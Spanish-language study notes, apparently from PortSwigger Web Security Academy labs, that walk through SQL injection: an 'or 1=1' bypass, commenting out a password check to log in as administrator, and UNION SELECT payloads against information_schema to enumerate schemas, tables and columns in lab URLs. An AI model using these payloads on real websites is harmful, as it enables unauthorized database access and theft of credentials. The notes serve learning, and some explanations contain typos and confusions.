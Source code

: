 tenemos que: 
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
opcion (COLUMNAS) FROM (desde que tabla queremos ver esos campos) WHERE (POR EJEMPLO UN USUARIO QUE LE INDICAS ENTRE COMILLAS) 
que si vamos a al url podemos cambiarlo de esta manera
academy.net/filter?category=Pets%27%20or%201=1--%20-
si creamos una columna 
```
create table users(id int(32), username varchar(32), subscription varchar(32));
```
así se agrega una nueva fila: 
```
insert into users(username, password, subscritpion) values("txhaka", "a", "12 meses");
```
y para seleccionar por usuario:
```
select * from users where user='txhaka';
```
ahora en la parte del input hacemos cositas
```
select subscription from users where username = 'txhaka' or 1=1;-- -';
```
Ahora vamos a ver otros campos que se pueden alterar con el link, por ejemplo (donde %s es el input)
```
select nombre,apellidos from users where username = '%s' and password = '%s'
```
y si agregamos 
```
select nombre,apellidos from users where username = 'administator'-- -'and passwor = '$s'
```
estaría comentando lo que le sigue, por lo que realizaría una sola petición.
Entonces como queremos quedarnos con solamente administrador le agregamos el -- -, que es para que me interprete con las 3 comillas

Para ver las columnas:
La url, seguida de un /filter o lo que sea /index.html. seguida de una category: filter?category=LaCategoria' union select 1,2 -- -
algo así sería la sintaxis pero esta vez vamos a utilizar el schema.schemata
```
0ad200ed046eb8ef83f00a61008f0004.web-security-academy.net/filter?category=Gifts' union select schema_name,NULL from information_schema.schemata-- -
```
pero en la query es distinto, así se dumpeé todas las tablas existentes de todas las bases de datos
```
union select table_name,NULL from information_schema.tables-- -
```
ahora para dumpear de la parte que quiero utilizo el where y estaría viendo todas las columnas:
```
union select table_name,NULL from information_schema.tables where table_schema='public'-- -
```
si repesamos, la base de datos es marx, la tabla es users, la columna son password, etc. Ahora la sintaxis podría ser más así
```
union select column_name,NULL from information_schema.columns where table_schema ='DB' and table_name = 'tabla'-- -
```
Entonces tenemos la union select que enlaza las filas que ya tenemos con unas nuevas, NULL, column_name, en este caso son dos para que lo tome la página de portswiger, ahora es desde el information_schema.columns que es el método de sql que vamos a utilizar para que nos busque los datos de union select y ahora aclaramos que columna tomamos de referencia (ósea para ver los datos de esa columna) y por último el nombre de la database que en este caso es 'users' en el query link se verría tal que así
```
https://0aa300ed03d94aec80ab084500e80074.web-security-academy.net/filter?category=Corporate+gifts'union select NULL,table_name from information_schema.columns where table_schema ='public' and table_name = 'users'-- -
```